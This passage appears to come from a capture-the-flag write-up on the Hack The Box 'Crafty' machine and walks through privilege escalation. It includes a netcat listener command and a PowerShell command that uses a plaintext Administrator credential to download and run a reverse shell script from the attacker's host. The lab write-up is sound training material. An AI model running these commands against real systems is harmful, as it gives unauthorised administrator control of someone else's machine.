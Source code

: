 I then attempted the `runas` command on the target machine, but it didn't prompt me for the password, so after some research, the method I found was to create a credential object and run a command using it. So I decided to create a powershell script containing a reverse shell payload and run it using the credential object.

I generated my payload using [revshells](https://www.revshells.com/)

![htb-crafty-17.png](/assets/posts/htb-crafty/htb-crafty-17.png)

I saved this payload on my attack host in a file named `reverse_shell.ps1`. I saved this file in the same directory as where my web server was running so I could request it from the target machine.

Before we transfer the payload and execute it, start a Netcat listener.

```sh
nc -lvnp 9998
```

I then used the following commands to create the credential object and run the script using the credential object. This will make it so that the reverse shell I just created is executed on the victim machine with Administrative privileges.

```powershell
$SecPass = ConvertTo-SecureString 's67u84zKq8IXw' -AsPlainText -Force  
  
$cred = New-Object System.Management.Automation.PSCredential('Administrator',$SecPass)  
  
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.86:8000/reverse_shell.ps1')" -Credential $cred
```

As you can see, we've obtained shell access with administrator privileges. We can then navigate to the Administrator's Desktop and get the root flag.
